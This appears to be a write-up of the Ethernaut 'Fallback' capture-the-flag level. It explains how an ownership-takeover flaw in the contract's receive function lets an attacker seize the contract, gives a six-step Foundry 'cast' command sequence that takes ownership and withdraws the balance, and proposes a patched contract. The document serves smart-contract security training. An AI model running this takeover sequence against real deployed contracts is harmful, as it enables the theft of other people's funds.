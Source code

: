 # Fallback

1. Claim ownership of the contract
2. Reduce its balance to 0

## Vulnerability

### Ownership Takeover in `contribute` function

The `contribute` function changes the owner of the contract if the `msg.sender`'s contributions exceed the current owner's contributions. This could allow an attacker to take over the contract by simply contributing more than the current owner.

### Ownership Takeover in receive function

The `receive` function, which is called when the contract is sent Ether without data, changes the owner of the contract to `msg.sender` if `msg.sender` has made any contributions. This means that anyone who has made contributions can take over the contract by sending Ether to it.

### Potential for Denial of Service

The `withdraw` function transfers the entire balance of the contract to the owner. If the owner's address is a contract with a fallback function that reverts, or if the owner's address is unable to receive Ether for any reason, this could prevent the `withdraw` function from being executed successfully, effectively locking the funds in the contract.

### Lack of Input Validation

The `contribute` function requires that the value of Ether sent is less than 0.001 Ether, but there's no similar check in the `receive` function. This could lead to unexpected behavior if someone sends more than 0.001 Ether to the contract without data.

## Attack

```bash
1. await contract.address
2. # await contract.owner()
   cast call $CONTRACT_ADDRESS "owner()" --rpc-url $ALCHEMY_RPC_URL
3. cast send $CONTRACT_ADDRESS "contribute()" --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
4. cast call $CONTRACT_ADDRESS "getContribution()" --rpc-url $ALCHEMY_RPC_URL --from $ACCOUNT_ADDRESS
5. # {value: msg.value}("")
   cast send $CONTRACT_ADDRESS --value 0.000000000000000001ether --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
6. cast send $CONTRACT_ADDRESS "withdraw()" --private-key $PRIVATE_KEY --rpc-url $ALCHEMY_RPC_URL
```

## Fix

```javascript
function withdraw() public onlyOwner {
    require(address(this).balance > 0, "Insufficient funds");
    (bool success, ) = payable(owner).call{value: address(this).balance}("");
    require(success, "Transfer failed");
}

receive() external payable {
    require(msg.value > 0 && msg.value < 0.001 ether && contributions[msg.sender] > 0);
    if (contributions[msg.sender] + msg.value > contributions[owner]) {
        owner = msg.sender;
    }
    contributions[msg.sender] += msg.value;
}
```